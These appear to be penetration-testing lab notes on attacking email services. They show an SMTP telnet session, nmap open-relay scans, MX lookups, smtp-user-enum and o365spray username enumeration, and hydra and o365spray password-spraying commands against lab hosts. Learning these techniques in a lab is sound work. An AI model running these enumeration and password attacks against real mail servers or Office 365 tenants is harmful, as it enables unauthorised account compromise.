 # Interacting
```bash
$ telnet 10.129.14.128 25
```

## Send an Email
```bash
$ telnet 10.129.14.128 25

Trying 10.129.14.128...
Connected to 10.129.14.128.
Escape character is '^]'.
220 ESMTP Server


EHLO inlanefreight.htb

250-mail1.inlanefreight.htb
250-PIPELINING
250-SIZE 10240000
250-ETRN
250-ENHANCEDSTATUSCODES
250-8BITMIME
250-DSN
250-SMTPUTF8
250 CHUNKING


MAIL FROM: <cry0l1t3@inlanefreight.htb>

250 2.1.0 Ok


RCPT TO: <mrb3n@inlanefreight.htb> NOTIFY=success,failure

250 2.1.5 Ok


DATA

354 End data with <CR><LF>.<CR><LF>

From: <cry0l1t3@inlanefreight.htb>
To: <mrb3n@inlanefreight.htb>
Subject: DB
Date: Tue, 28 Sept 2021 16:32:51 +0200
Hey man, I am trying to access our XY-DB but the creds don't work. 
Did you make any changes there?
.

250 2.0.0 Ok: queued as 6E1CF1681AB


QUIT

221 2.0.0 Bye
Connection closed by foreign host.
```

# Footprinting the Service
## Nmap
```bash
$ sudo nmap <IP> -sC -sV -p25`
```

## Nmap - Open Relay
```bash
$ sudo nmap <IP> -p25 --script smtp-open-relay -v`
```

## Attacking Email Services
### Host - MX Records
```bash
$ host -t MX hackthebox.eu
```

### DIG - MX Records
```bash
$ dig mx inlanefreight.com | grep "MX" | grep -v ";"
```

### Host - A Records
```
COR33@htb[/htb]$ host -t A mail1.inlanefreight.htb.
```

```
COR33@htb[/htb]$ smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

### O365 Spray
```
COR33@htb[/htb]$ python3 o365spray.py --validate --domain msplaintext.xyz
```

Now, we can attempt to identify usernames.

```
COR33@htb[/htb]$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
```

## Password Attacks
### Hydra - Password Attack
```
COR33@htb[/htb]$ hydra -L users.txt -p 'Company01!' -f 10.10.110.20 pop3
```

### O365 Spray - Password Spraying
```
COR33@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```
